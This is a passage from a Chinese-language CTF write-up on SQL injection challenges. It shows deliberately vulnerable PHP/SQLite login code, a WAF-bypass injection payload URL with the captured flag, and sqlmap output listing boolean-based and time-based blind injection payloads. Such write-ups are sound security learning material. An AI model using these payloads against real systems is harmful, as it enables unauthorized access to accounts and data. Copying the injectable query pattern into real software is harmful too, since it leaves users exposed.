     $row = (new SQLite3('/db.sqlite3'))
        ->querySingle("SELECT * FROM users WHERE account = '$account' AND password = '$password'", true);
    if ($row) {
        echo $flag;
    } else {
        highlight_file(__FILE__);
    }
    ```
* 有 waf 過濾掉一些東西
* payload : `http://swctf.hackersir.org:20002/?account=admin%27//**&password=123`
* flag : `SWCTF{t1i5_i5_th3_r3a1_flag}`

#### Advanced SQL Injection
> 200
> 為了跟上 TIM 哥的腳步，小明持續深入研究 SQL Injection，聽說有種手法是利用 Union 作攻擊
> http://swctf.hackersir.org:20000/
* source code
    ```php=
    <?php

    if (isset($_GET['source'])) {
        highlight_file(__FILE__);
        exit();
    }

    if (isset($_GET['action']) && $_GET['action'] == 'logout') {
        setcookie("userinfo", "", time() - 3600);
        die("<script>window.location.replace('/');</script>");
    } else if (isset($_POST['account']) && isset($_POST['password'])) {
        $account = $_POST['account'];
        $password = md5($_POST['password']);

        setcookie("userinfo", json_encode($row), time() + 3600 * 24, "/");

        $row = (new SQLite3('/db.sqlite3'))
            ->querySingle("SELECT * FROM users WHERE account = '$account' AND password = '$password'", true);
        if (!$row) {
            $error = "Login Fail";
        } else {
            setcookie("userinfo", json_encode($row), time() + 3600 * 24, "/");
            die("<script>window.location.replace('/');</script>");
        }
    }
    ```
* 滿明顯可以用 sqlmap 打的 ... 我懶 XDDDD
    ```=
    ---
    Parameter: account (POST)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: account=admin' AND 5275=5275-- ztus&password=admin

        Type: time-based blind
        Title: SQLite > 2.0 AND time-based blind (heavy query)
        Payload: account=admin' AND 1204=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))-- lsAs&password=admin
